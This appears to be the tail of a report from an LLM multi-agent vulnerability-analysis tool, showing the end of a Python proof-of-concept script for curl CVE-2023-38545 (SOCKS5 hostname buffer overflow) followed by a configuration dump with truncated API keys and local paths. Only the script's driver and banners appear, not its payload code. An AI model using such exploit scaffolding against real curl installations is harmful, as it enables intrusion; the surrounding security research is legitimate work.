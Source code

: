     return payload

def main():
    """Main exploit function"""
    print("CVE-2023-38545 Proof of Concept Exploit")
    print("SOCKS5 Hostname Buffer Overflow in curl 8.3.0")
    print("="*60)
    
    # Test the vulnerability
    vulnerability_found = demonstrate_vulnerability()
    
    # Create exploit payload
    payload = create_exploit_payload()
    
    # Summary
    print("\n" + "="*60)
    print("[*] EXPLOIT SUMMARY")
    print("="*60)
    
    if vulnerability_found:
        print("[!] SUCCESS: CVE-2023-38545 vulnerability confirmed!")
        print("[!] The SOCKS5 hostname buffer overflow was successfully demonstrated")
    else:
        print("[*] Vulnerability tests completed")
    
    return vulnerability_found

if __name__ == "__main__":
    try:
        success = main()
        print(f"\n[*] Exploit completed successfully: {success}")
    except Exception as e:
        print(f"\n[!] Exploit failed: {e}")



---

openai_api_key='sk-svcacct-...' brave_search_api_key='BSA...' rich_console=<console width=206 ColorSystem.TRUECOLOR> llm_api_key='sk-...' llm_base_url='https://litellm.faigle.dev' max_reprompts=5 model='anthropic/claude-sonnet-4-20250514' model_temperature=0.3 reasoning_model='anthropic/claude-sonnet-4-20250514' max_turns=50 session_db_path='./sessions.sqlite' log_level='INFO' trace_name='multi-agent curl' sandbox_image='vuln-curl:latest' setup_archive=None codebase_path='/home/julian/Desktop/Bachelorarbeit/testdata/curl/codebase' vulnerable_folder='curl-8.3.0' patched_folder='curl-8.4.0' chroma_path='/home/julian/Desktop/Bachelorarbeit/ivexes/chroma/' embedding_model='intfloat/multilingual-e5-large-instruct' embedding_provider='local'

---

---
*Report generated by IVEXES Multi-Agent Security Analysis System*
